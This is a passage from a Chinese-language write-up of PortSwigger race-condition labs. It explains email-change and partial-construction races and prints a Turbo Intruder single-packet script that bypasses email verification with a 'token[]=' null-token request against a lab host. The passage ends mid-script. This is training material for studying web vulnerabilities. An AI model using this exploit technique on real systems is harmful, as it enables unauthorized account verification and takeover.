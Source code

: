 ```php
// an email is queued to the unconfirmed\_email argument  
// but the body is generated via a template engine reads the variables back from the database  
- confirmation_link = confirmation_url(@resource, confirmation_token: @token)  
- if @resource.unconfirmed\_email.present? || !@resource.created\_recently?  
#content  
    = email_default_heading(@resource.unconfirmed_email || @resource.email)  
%p= _('Click the link below to confirm your email address.')  
#cta  
= link_to _('Confirm your email address'), confirmation_link
```

因此存在这么一个竞争窗口，第一次更新邮箱请求发送后后端会发送电子邮件，邮件发送前后端处理了第二个更新邮箱请求，将第二个邮箱地址和token写到了数据库中。因此如果第一次发送的邮件内容出现了第二次的邮箱，就说明竞争成功。

![image-20240315150151640.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-0cfc9ad26ad23d1d46ae609ea00ce02f7c68de9e.png)

![image-20240315150212416.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-07a38bf7570274f26fdc0df108d88a51f273e4f9.png)

Session-based locking mechanisms
--------------------------------

例如php session的原生处理模块一次只会处理session相关的一个请求，可能要使用不同的sessionid发送请求。

Partial construction race conditions
------------------------------------

许多应用程序在创建对象时需要经过多个步骤，这可能会引入一个临时的中间状态，在该状态下对象是可以被利用的。具体例子看Lab就行。

### Lab: Partial construction race conditions

这个实验开始有点现实渗透的意思了，也是Partial construction race conditions一个典型的例子。

后端注册的逻辑大概就是先将用户名、密码、邮箱存入到数据库中，然后生成这个邮箱对应的token发送到邮箱并将token存入数据库中。用户在邮箱中查收token并验证就可以通过注册了。

对应的漏洞就是，存在这么一个竞争窗口，用户名、密码、邮箱存入到数据库之后，生成token存入数据库之前，在这个窗口中token实际上是null，因此这时候的confirm接口传一个等同于null的token就可以验证通过。

confirm接口是从`/resources/static/users.js`中找到，通过测试发现`POST /confirm?token[]=`的响应结果是`"Incorrect token: Array"`而不是`forbidden`，因此等效于null。

拿**Turbo Intruder**中的`examples/race-single-packet-attack.py`攻击：

```php
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0a4e00ff043eb735814e490200960010.web-security-academy.net
Cookie: phpsessionid=BRTkAgx6CPAghuEp5LnJpmdoRvynz5es
Content-Length: 0

'''
    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for i in range(20):
        username = 'ff'+str(i)

        engine.queue(target.req, username,gate='race1')
        for j in range(20):
            engine.queue(confirmationReq, gate='race1')

```